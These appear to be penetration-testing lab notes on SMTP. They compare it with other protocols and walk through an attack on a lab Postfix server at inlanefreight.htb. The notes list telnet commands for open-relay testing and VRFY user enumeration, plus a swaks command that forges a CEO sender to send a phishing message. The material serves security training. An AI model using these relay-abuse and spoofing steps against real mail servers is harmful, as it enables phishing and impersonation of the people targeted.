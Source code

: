 **Key Differences**:
- **SMTP vs. DNS**: SMTP sends emails, while DNS resolves names to IPs. SMTP supports optional authentication (SMTP-AUTH), unlike DNS, which relies on DNSSEC for integrity.
- **SMTP vs. NFS/SMB**: SMTP is for email, not file sharing. NFS/SMB require stronger authentication, while SMTP’s open relay risk is unique due to its relay function.
- **SMTP vs. FTP/TFTP**: SMTP transmits emails, not files. FTP supports authentication and encryption (FTPS), while TFTP lacks both, similar to unencrypted SMTP.

### Practical Example: Exploiting `inlanefreight.htb`
The SMTP server at `10.129.14.128` is identified as a Postfix server with an open relay vulnerability.

#### Vulnerabilities
- **Open Relay**:
  - Nmap confirms the server passes all 16 open relay tests, allowing unauthorized relaying.
- **VRFY Enabled**:
  - `VRFY` is supported but returns `252` for all queries, reducing enumeration reliability.
- **Plaintext Exposure**:
  - Lack of STARTTLS enforcement risks credential and email content interception.

#### Attack Scenario
1. **Confirm Open Relay**:
   ```bash
   telnet 10.129.14.128 25
   EHLO test
   MAIL FROM: <fake@domain.com>
   RCPT TO: <victim@external.com>
   DATA
   Subject: Phishing Test
   This is a fake email.
   .
   QUIT
   ```
   - If successful, the email is relayed, confirming the open relay.

2. **User Enumeration**:
   ```bash
   telnet 10.129.14.128 25
   VRFY root
   VRFY admin
   ```
   - Unreliable `252` responses limit enumeration effectiveness.

3. **Send Spam/Phishing**:
   - Use the open relay to send bulk emails with forged sender addresses:
     ```bash
     swaks --to victim@external.com --from ceo@inlanefreight.htb --server 10.129.14.128 --body "Urgent: Update your password"
     ```
   - Spoofed emails appear legitimate, increasing phishing success.

4. **Exploit with Other Services**:
   - Combine with DNS enumeration (e.g., `mail.inlanefreight.htb` from zone transfer) to target related services (e.g., IMAP/POP3 on `10.129.18.201`).
